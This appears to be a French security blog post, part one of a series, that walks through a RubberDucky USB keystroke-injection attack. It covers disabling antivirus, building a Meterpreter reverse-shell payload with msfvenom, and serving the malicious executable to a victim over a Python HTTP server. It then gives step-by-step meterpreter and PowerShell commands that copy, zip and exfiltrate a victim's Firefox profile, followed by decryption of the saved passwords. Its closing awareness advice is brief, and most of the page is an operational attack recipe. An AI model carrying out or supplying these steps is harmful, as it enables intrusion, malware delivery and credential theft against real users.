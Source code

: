 +++
date = "2020-03-23T10:27:00+00:00"
draft = false
tags = ['securité']
title = "Yourlabs security 1/3"
author = "Claw"
+++

## RubberDucky {#rubberducky}


### Fonctionnement


Il ressemble à une clef usb d'apparence anodine mais il s'agit en realité d'un clavier scripté capable de tapper plus de 1000mots par minute.
Il contient une carte memoire qui contient notre script et marche très bien sur tout OS même à jour. 

![](/img/sec/ducky.png)

### Objectifs

- desactiver les antivirus |
- configurer un proxy |
- démarrer un reverse shell |
- insertion de certificat d'autorité |
- démarrer des scripts powershell |
- tels qu'un ransomware |


Exemple de script RubberDucky:

```text
DELAY 700                        // Attendre 700 ms 
ESCAPE                           // Tapper Echap
DELAY 100                        // Attendre 100ms
CONTROL ESCAPE                   // Ouvrir le menu Démarer
DELAY 100
STRING Windows Security          // Tapper "Windows Security"
DELAY 200
...
```

### Compilation

![](/img/sec/comp.png)

Le compilateur est fournit en .jar c'est du java compilé et packagé:

- `-i` l'input
- `-l` l'output (doit tjs etre inject.bin)
- le plus important `-l` pour le langage du clavier


### Reverse shell

![](/img/sec/msfv.png)

Un reverse shell est un programme qui permet d'obtennir un acces distant pour executer des commandes.
Le but est de l'executer sur la machine de la victime pour qu'il se connecte a un shell qu'on a mit en ecoute de connection sur un serveur.

On utilise Msfvenom pour creer le payoad et Metasploit pour le server Meterpreter (cest sur celui ci que la victime va se connecter:
- `-a`: l'architecture CPU
- `--platform`: la plateforme (windows, android, nix...)
- `-p`: Le paylaod, dans ce cas meterpreter reverse_tcp
- `LHOST`: l'ip du server meterpreter
- `LPORT`: le port du server meterpreter
- `-e`: l'encoding
- `-f`: le format
- `>` /tmp/mad/666.exe: la destination

### Distribution

```bash
cd /tmp/mad && python -m http.server
# Sous ubuntu, debian... il faut utiliser python3 -m http.server
# car python = python2 sous ArchLinux python = python3
```

Une fois pret on utilise un petit server http pour que la victime puisse telecharger notre exe malvaillante

![](/img/sec/msf.png)


### Demo

[![](/img/sec/demoloosedoz.png)](https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4)

[![](/img/sec/revshell.png)](https://yourlabs.io/oss/security/raw/master/assets/msf-reverseshell.mp4)

(clické sur les images pour voir les videos)

#### Conclusion: 

Ne ramassez pas les clefs usb que vous trouvez dans la rue

---

## Reverse shell

### Usages

- Vol de mots de passe firefox 
- Keylogger 
- Screen capture 
- Downloader et uploader des fichiers 
- Implementation d'un ransomeware 
- Reconnaissance et mouvement transversaux dans le reseau 
- ... 


### Vol de mots de passe Firefox

```powershell
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

- [1] Lancer cmd)
- [2] Lancer powershell)
- [3] Copie des fichiers .default-release de firefox
- [4] Compression dans fichiers dans une archive zip
- [5-6] On exit 2 fois pour revenir au prompt `meterpreter >`
- [7] Exifltration de l'archive zip


### Extraction

Dans un autre terminal, on unzip et place les fichier dans le repetoir ~/.mozila/firefox

```bash
$ unzip mad.default-release.zip
$ sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
$ sudo chown -R ${USER}. /home/<you>/.mozilla/firefox/mad.default-release
```

### Configuration

Par la suite on edite `~/.mozilla/firefox/profiles.ini avec le nouveau profile`

```text
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

### Dechiffrement

On utilise un outil appellé "[firefox-decrypt](https://github.com/Unode/firefox_decrypt/)":

```bash
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python firefox_decrypt.py
```


### Resultat

![](/img/sec/password.png)


- [Partie 2: Ransomware](/fr/posts/2020-03-24-windows_ransomware/)
- [Partie 3: SSL mitm](/fr/posts/2020-03-24-ssl_mitm/)
